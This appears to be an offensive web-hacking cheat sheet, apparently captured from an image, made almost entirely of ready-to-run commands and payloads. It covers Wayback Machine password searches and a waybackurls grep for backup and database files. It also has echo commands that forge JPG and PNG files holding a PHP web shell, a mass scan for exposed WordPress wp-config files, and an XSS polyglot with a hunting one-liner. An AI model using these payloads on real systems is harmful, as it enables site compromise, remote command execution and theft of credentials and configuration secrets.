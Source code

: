 ## Wayback Machine

### Password Search

1. Access https://web.archive.org/
2. Type in the desired domain
3. Switch to the URL tab https://web.archive.org/web/*/https://<DOMAIN>*
4. Apply the filter `%40`

## waybackurls

> https://github.com/tomnomnom/waybackurls

```console
$ waybackurls <DOMAIN> | grep - -color -E "1.xls | \\.tar.gz | \\.bak | \\.xml | \\.xlsx | \\.json | \\.rar | \\.pdf | \\.sql | \\.doc | \\.docx | \\.pptx | \\.txt | \\.zip | \\.tgz | \\.7z"
```

## Web Shell / Malicious Images

```console
$ echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > <FILE>.jpg
$ echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > <FILE>.png
```

## Wordpress Configuration Disclosure

```console
$ subfinder -silent -d http://<DOMAIN> | httpx -silent -nc -p 80,443,8080,8443,9000,9001,9002,9003,8088 -path "/wp-config.PHP" -mc 200 -t 60
```

## Cross-Site Scripting (XSS)

### Ployglot Payload

Note that `HTML tags` that need to be closed for `XSS`.

```console
<!--
<title>
<textarea>
<style>
<noscript>
<xmp>
<template>
<noembed>
```

```console
--></title></textarea></style></noscript></script></xmp></template></noembed><svg/onload=alert()>
```

### Single Domain One-liner

```console
$ echo https://<DOMAIN>/ | gau | gf xss | uro | Gxss | kxss | tee <FILE>.txt
```
